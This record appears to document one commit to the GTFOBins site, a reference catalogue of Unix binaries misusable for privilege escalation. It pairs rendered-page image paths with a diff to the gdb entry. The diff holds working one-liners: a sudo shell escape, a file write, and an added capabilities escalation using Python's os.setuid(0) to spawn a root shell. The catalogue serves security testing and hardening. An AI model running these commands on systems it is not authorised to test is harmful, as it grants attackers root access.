

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/gdb.md, in a window 1280 px wide. Shown: the whole page at 91% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add capabilities to gdb

```diff
--- a/_gtfobins/gdb.md
+++ b/_gtfobins/gdb.md
@@ -12,4 +12,7 @@ functions:
         gdb -nx -ex "dump value $LFILE \"DATA\"" -ex quit
   sudo-enabled:
     - code: sudo gdb -nx -ex '!sh' -ex quit
+  capabilities-enabled:
+    - description: Only if it has been compiled with Python support.
+      code: ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
 ---
```
